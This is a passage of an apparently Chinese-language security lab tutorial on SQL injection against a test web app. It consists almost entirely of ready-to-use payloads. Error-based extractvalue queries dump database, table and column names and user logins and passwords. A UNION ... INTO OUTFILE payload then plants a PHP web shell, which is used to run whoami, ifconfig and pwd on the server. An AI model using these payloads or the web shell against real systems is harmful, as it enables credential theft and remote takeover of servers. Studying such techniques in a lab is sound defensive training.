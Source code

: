 ### 3.4.2 extractvalue

```
#1.获取库名
1' union SELECT 1,2,3,4,5,extractvalue(1,concat(0x7e,(SELECT database()))),7 # 

#2.获取表名
1' union SELECT 1,2,3,4,5,extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1))),7 # 

#3.获取字段名
1' union SELECT 1,2,3,4,5,extractvalue(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 1))),7 # 

#4.获取字段值
1' union SELECT 1,2,3,4,5,extractvalue(1,concat(0x7e,(SELECT login FROM users limit 1))),7 # 

#5.当字段超过32位时，会被截取，可以通过多次请求，来获取最终结果
1' union SELECT 1,2,3,4,5,extractvalue(1,mid(concat(0x7e,(SELECT password FROM users limit 1)),1,30)),7 # 
1' union SELECT 1,2,3,4,5,extractvalue(1,mid(concat(0x7e,(SELECT password FROM users limit 1)),30,30)),7 # 
```

## 3.5 sql-injection remote code execution

```python
step1:进入容器
docker exec -it 容器id /bin/bash

step2:创建目录
 在 app 目录下(即php部署目录下)创建文件夹file

step3:赋予权限
chmod 777 /app/file/

step4:将文件上传
union select 1,2,3,4,5,6,'<?php system($_GET["cmd"]);?>' into outfile '/app/file/cmd.php'# 

http://10.102.224.206:9091/sqli_2.php?movie=11%20union%20select%201,2,3,4,5,6,%27%3C?php%20system($_GET[%22cmd%22]);?%3E%27%20into%20outfile%20%27/app/file/cmd.php%27#%20&action=go

step5:通过页面进行注入：
http://10.102.224.206:9091/file/cmd.php

http://10.102.224.206:9091/file/cmd.php?cmd=whoami

http://10.102.224.206:9091/file/cmd.php?cmd=ifconfig

http://10.102.224.206:9091/file/cmd.php?cmd=pwd
```
